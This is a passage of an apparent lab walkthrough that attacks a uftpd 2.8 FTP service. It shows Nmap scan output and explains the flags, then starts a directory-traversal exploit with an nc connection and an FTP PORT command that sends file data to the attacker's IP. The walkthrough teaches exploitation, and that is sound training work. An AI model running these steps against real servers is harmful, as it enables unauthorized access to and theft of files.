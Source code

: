 PORT     STATE SERVICE VERSION
2121/tcp open  ftp
| fingerprint-strings: 
|   GenericLines, NULL, SMBProgNeg: 
|     220 uftpd (2.8) ready.
|   Help: 
|     220 uftpd (2.8) ready.
|     214-The following commands are recognized.
|     ABOR DELE USER PASS SYST TYPE PORT EPRT RETR MKD RMD REST MDTM PASV
|     EPSV QUIT LIST NLST MLST MLSD CLNT OPTS PWD STOR CWD CDUP SIZE NOOP
|     HELP FEAT
|     Help OK.
|   SSLSessionReq: 
|     220 uftpd (2.8) ready.
|     command '
|_    recognized by server.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
</code></pre>
<ul>
<li>
<code>-sC</code> → Performs a script scan</li>
<li>
<code>-sV</code> → Performs a version scan</li>
<li>
<code>-Pn</code> → Disables host discovery (treats all hosts as online)</li>
<li>
<code>-T4</code> → Increases scan speed</li>
<li>
<code>-p2121</code> → Scans for the port 2121</li>
</ul>
<p>The Nmap scan reveals that the service running on port 2121 is uftpd 2.8, and anonymous login is enabled. A quick Google search indicates that this version is vulnerable to a <a href="https://www.exploit-db.com/exploits/51000">directory traversal attack</a>, which could allow us to read any file on the client device.</p>
<hr/>
<h2>Performing the Attack</h2>
<p>To exploit this vulnerability, we can connect to the client on port 2121 using nc:</p>
<pre><code class="language-shell-session">[!bash!]$ nc 192.168.0.60 2121

220 uftpd (2.8) ready.
</code></pre>
<p>Next, we enter the following command, where <code>192.168.0.56</code> is our attacker's IP. The IP is formatted with commas (,) instead of dots (.), and 1,1002 represents the port number (calculated as 1*256 + 1002 = 1258):</p>
<pre><code class="language-shell-session">PORT 192,168,0,56,1,1002
